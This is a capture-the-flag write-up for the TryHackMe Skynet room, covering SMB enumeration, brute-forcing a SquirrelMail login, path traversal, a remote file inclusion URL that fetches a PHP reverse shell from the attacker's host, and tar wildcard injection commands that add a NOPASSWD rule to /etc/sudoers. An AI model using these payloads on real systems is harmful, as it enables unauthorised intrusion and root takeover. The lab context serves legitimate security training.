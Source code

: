# CTF_skynet
this is Poc writeup CTF skynet from TryHackMe.com, link https://tryhackme.com/room/skynet

## tools
1. nmap (looking port that open)
2. dirb (brute listing directory)
3. sqlmap (sql injection database)
4. smbmap (mapping smb server)
5. smbclient (log in smb server)
6. burp (community edition)
7. nc or Ncat (listener reverse shell)
8. python3 (for http.server)
9. nano (text editor)
10. hydra (brute force by wordlist from login form)
11. gobuster (brute listing director)
12. searchsploit (search exploit that match with targeted system)

## Let's Rock n Roll
1. scanning port that opened using nmap :

   ![nmap](/submit/1.png "nmap")

2. brute listing directory using dirb :

   ![dirb](/submit/2.png "dirb")

3. while waiting dirb processing, let's try mapping the smbserver using smb map, here's the result :

   ![smbmap](/submit/4.png "smbmap")

4. the anonymous client is still on, now let's try login using anonymous user using smbclient:

   ![smbclient](/submit/5.png "smbclient")

5. after dirb finished, we got interesting directory. there is /squirrelmail. open browser that access hhtp://**your machine**/squirrelmail :
  
   ![webview](/submit/6.png "webview")
  
6. back to the smbclient, then check the directory using ls command. after that we've got attention.txt and file log1.txt,log2.txt,log3.txt on directory logs. download all the files using get command :
  
   ![smbclient](/submit/7.png "smbclient")

7. check all of files using cat. information that we've got, there is maintenance service so all credential will be reseted. from attention.txt there is username information taht we can use for brute force. information that we got from log2.txt is all password for first login before update password :
  
   ![smbclient](/submit/8.png "smbclient")
  
8. use burp to intercept and get url GET information that we can combined using Hydra for brute force. fill the form username and password than push button login. than we got the GET url :
  
   ![burp](/submit/10.png "burp")
  
   ![burp](/submit/12.png "burp")
  
   ![burp](/submit/13.png "burp")
  
9. information that we got is, GET method, url http://**your machine**/squirrelmail/src/redirect.php, and the respon output that we can use as parameter that login was failed. then use hydra with username milesdyson and password wordlist (**log2.txt**), like the command bellow :

   ![hydra](/submit/14.png "hydra")
  
10. after we got information username and password, login into the squirrelmail and access the email from synet@skynet with subject Samba Password Reset. use the password credential for login as milesdyson with smbclient :
 
   ![webview](/submit/15.png "webview")
  
   ![webview](/submit/16.png "webview")
  
   ![sambaclient](/submit/17.png "sambaclient")
  
11. list the item on the directory. there is **notes** directory, access it. than download the important.txt using get command :

   ![sambaclient](/submit/19.png "sambaclient")
   
12. now, we got information that machine use CMS. the CMS was in directory at the image bellow. just put the directory affter your machine target ip like this http://**machine target**/**the directory** using browser :

![cat](/submit/21.png "cat")

![webview](/submit/22.png "webview")

13. use gobuster for brute the directory. in this case i'm using dirb wordlist and got the CMS pannel on http://**your target**/**the directory**/Administrator/ :

![gobuster](/submit/23.png "gobuster")

![webview](/submit/24.png "webview")

14. then use searchsploit to get the information. there is Local/Remote vuln on file alertConfigField.php. in this case, just add ../../../../../../etc/passwd on url browser and the /etc/passwd information show off :

![searchsploit](/submit/25.png "searchsploit")

![cat](/submit/26.png "cat")

![webview](/submit/27.png "webview")

15. creat reverse shell in PHP than run the simple http server using python3 for upload the PHP reverse shell script to the target machine afterthat use ncat for listener. then open the browser and type http://**your target**/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://**local machine**/reverse.php, now we got the shell :

![nano](/submit/28.png "nano")

![ncat](/submit/29.png "ncat")

![reverseShell](/submit/30.png "reverseShell")

![reverseShell](/submit/31.png "reverseShell")

16. go into desktop directory milesdyson and there is user.txt, use cat for show the output :



17. check crontab file to get information, which service runing by **root**. there's backup.sh that will be run on /var/www/html/ approximately every one minutes. copy backup.sh into /var/www/html then run the several comment bellow :
- **echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh **
- **touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"**
- **touch "/var/www/html/--checkpoint=1"**

![reverseShell](/submit/36.png "reverseShell")

![previlegeescall](/submit/37.png "previlegeescall")

![previlegeescall](/submit/38.png "previlegeescall")

18. BOOM we got the root access. now go into **/root** and cat the root.txt

![previlegeescall](/submit/39.png "previlegeescall")

73 good luck
